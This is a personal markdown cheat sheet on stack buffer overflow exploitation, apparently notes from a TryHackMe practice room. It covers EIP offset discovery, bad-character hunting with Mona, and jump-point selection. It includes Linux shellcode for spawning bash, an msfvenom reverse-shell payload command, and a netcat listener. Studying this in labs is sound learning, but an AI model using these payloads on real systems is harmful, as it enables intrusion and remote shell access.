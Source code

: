 # Buffer Overflow

## Linux Applications

### Send data to applications

* Passing data from the command line
    * `python -c "print 'A' * 40 + '\xef\xbe\xad\xde'" | ./executable`
* Using a file as input in Radare 2
```bash
echo -e "12345678901234\x67\x05\x40" > over.txt
r2 -A -d ./executable
dor stdin=over.txt
doo
```
* Sending stdin data in GDB
    * `run < <(python -c "print 'A' * 40 + '\xef\xbe\xad\xde'")`
* Sending address without needing to convert to little endian first
    * `run < <(python -c 'import struct;  print "A"*40 + struct.pack("<L", 0xdeadbeef)')`
* Sending some shell code with padding NOPs
    * `python -c "from struct import pack; print '\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'.ljust(140,'\x90') +  pack('<L', 0xffffd0e0)"  > /tmp/var`

### Find EIP Offset With PEDA
* Install [PEDA](https://github.com/longld/peda)
    * If you get an error 'Error in sourced command file' when running gdb, just reinstall it `apt install gdb`
* Launch gdb
* Create a pattern with PEDA
    * `pattern create 200`
* Run the program and use pattern as the input
* After the program crashes, look at the value in EIP
* Use the EIP value to get the offset
    * `pattern offset <EIP Address>`


### Resources 
* [Stack Buffer Overflows: Linux - Chapter 1](https://reboare.github.io/bof/linux-stack-bof-1.html)
* [Stack Buffer Overflows: Linux 2 - Using GDB](https://reboare.github.io/bof/linux-stack-bof-2.html)
* [invoke.sh](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it/17775966#17775966)
* [List of Linux/i386 system calls](http://asm.sourceforge.net/syscall.html)

## Windows Applications

Those are my notes taken after doing the [Buffer Overflow Prep](https://tryhackme.com/room/bufferoverflowprep) room on TryHackMe.

There is also a [post explaining the same thing](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst).

### Install Needed Tools
* [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
* [Mona Plugin](https://github.com/corelan/mona)

### Exploit
* Run the application in Immunity
    * Between each tests, you will need to 
        * Restart the session (Ctrl-F2)
        * Lauch the application (F9)
* Configure Mona
    * `!mona config -set workingfolder c:\mona\%p`
* Try fuzzing the application with the [fuzzing.py](BufferOverflow/Windows/fuzzing.py) script
    * Note how many bytes crashes the application
* Find EIP offset with the [exploit.py](BufferOverflow/Windows/exploit.py) script
    * Use metasploit to generate a pattern 400 bytes longer than the strings that crashed the application
        * `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <BytesToCrashPlus400>`
    * Copy the pattern and use it as payload in the exploit script
    * Run the script
    * Find the offset in Immunity 
        * `!mona findmsp -distance <BytesToCrashPlus400>`
        * This will print a few lines, look for : `EIP contains normal pattern : ... (offset XXXX)`
        * Note the offset
    * Modify the exploit script
        * Set the offset to the one we found
        * Set the return address to BBBB
* Find Bad Charaters
    * Generate a list of possible bad characters with the [generate.py](BufferOverflow/Windows/generate.py) script
        * Copy the generated string and use it as the payload in exploy.py
    * In Immunity generate a byte array with possible characters
        * `!mona bytearray -b "\x00"`
    * Run exploit.py
    * Find bad character in Immunity
        * Copy the ESP address
        * `!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`
        * Note the first bad character found not in your list
    * Regenate the Mona bytes array without the found character
        * `!mona bytearray -b "\x00\xXX"`
    * Remove the found character from the payload
    * Repeat until Mona compare returns 'Unmodified'
* Find a Jump Point
    * In Immunity run 
        * `!mona jmp -r esp -cpb "<List of bad characters>"`
    * Open the 'Log data' window and pick an address to jump to from the list
    * Convert the address to little endian
    * Modify the return address in exploit.py to the address you found
* Generate the payload
    * `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "<List of bad characters>" -f py`
    * Use the generated code for the payload in exploit.py
* Prepend NOPs
    * Add some NOPs in exploit.py
        * `padding = "\x90" * 16`
* Start your netcat listener
    `nc -klvnp 4444`
* Run the exploit script
